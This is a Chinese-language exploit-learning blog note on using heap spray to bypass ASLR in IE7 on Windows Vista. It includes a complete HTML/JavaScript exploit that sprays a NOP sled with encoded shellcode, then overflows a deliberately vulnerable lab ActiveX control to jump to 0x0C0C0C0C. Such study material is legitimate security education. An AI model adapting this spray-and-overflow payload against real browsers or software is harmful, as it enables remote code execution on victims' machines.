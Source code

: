 ```yaml
---
title: 漏洞学习笔记-019-利用HeapSpray攻击ASLR
author: Misaka
date: 2020-11-28 12:38:00 +0800
categories: [Exploit]
tags: [Windows, Exploit]
math: true
---
```


利用Heap Spray(堆喷射)技术来攻击ASLR并定位shellcode

本文来源：[Moeomu的博客](/posts/漏洞学习笔记-019-利用HeapSpray攻击ASLR/)

## 原理

通过申请大量的内存，占领内存中的0x0C0C0C0C的位置，并在这些内存中放置0x90和shellcode，最后控制程序转入0x0C0C0C0C执行。只要运气不要差到0x0C0C0C0C刚好位于shellcode中的某个位置，shellcode就可以成功执行

## 实验

### 准备工作

> 环境：系统：Windows Vista SP0，DEP状态：默认，浏览器：IE7

- 还是将之前用过的[Vulner_AX.dll](https://pan.moeomu.com/Tutorial/0Day安全-资料/VulnerAX_SEH/VulnerAX.ocx)作为攻击目标
- `VulnerAX.idl`中`CVulnerAXCtrl的类信息`的UUID：`ACA3927C-6BD1-4B4E-8697-72481279AAEC`

### 思想

- 我们利用Heap spray技术在内存中申请200个1MB的内存块来对抗ASLR的随机化处理
- 每个内存块中包含着0x90填充和shellcode
- Heap spray结束后我们会占领`0x0C0C0C0C`附近的内存，我们只要控制程序转入`0x0C0C0C0C`执行，在经过若干个0x90滑行之后就可以到达shellcode范围并执行
- test函数中存在一个典型的溢出漏洞，通过复制超长字符串可以覆盖函数返回地址
- 我们将函数返回地址覆盖为`0x0C0C0C0C`，在函数执行返回执行后就会转入我们申请的内存空间中

### 代码

```html
<html>
<body>
<script>
    var nops = unescape("%u9090%u9090");
    var shellcode = "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u616B\u6F6F\u4D68\u7369\u8B61\u53c4\u5050\uff53\ufc57\uff53\uf857";
    while (nops.length < 0x100000)
        nops += nops;
    nops = nops.substring(0, 0x100000/2-32/2-4/2-2/2-shellcode.length);
    nops = nops + shellcode;
    var memory = new Array();
    for (var i = 0; i < 200; i++)
        memory[i] += nops;
</script>
<object classid="clsid:ACA3927C-6BD1-4B4E-8697-72481279AAEC" id="test"> </object>
<script>
    var s = "\u9090";
    while (s.length < 54)
    {
        s += "\u9090";
    }
    s += "\u0C0C\u0C0C";
    test.test(s);
</script>
</body>
</html>
```

### 结果

- 成功攻击ASLR，如图

![pic1](https://s3.ax1x.com/2020/11/28/DyUSMR.png)  
![pic2](https://s3.ax1x.com/2020/11/28/DyUcl9.jpg)  
![pic3](https://s3.ax1x.com/2020/11/28/DyN3vR.png)
